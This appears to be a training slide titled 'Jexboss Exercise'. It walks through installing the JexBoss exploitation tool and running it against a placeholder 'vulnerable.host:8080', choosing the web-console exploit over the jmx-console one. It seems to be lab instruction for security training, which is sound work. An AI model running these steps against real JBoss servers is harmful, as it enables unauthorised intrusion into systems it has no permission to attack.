

# Jexboss Exercise
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py –h

python jexboss.py –host vulnerable.host:8080

Skip the “jmx-console” exploit by typing “no”
Select “yes” for the “web-console” exploit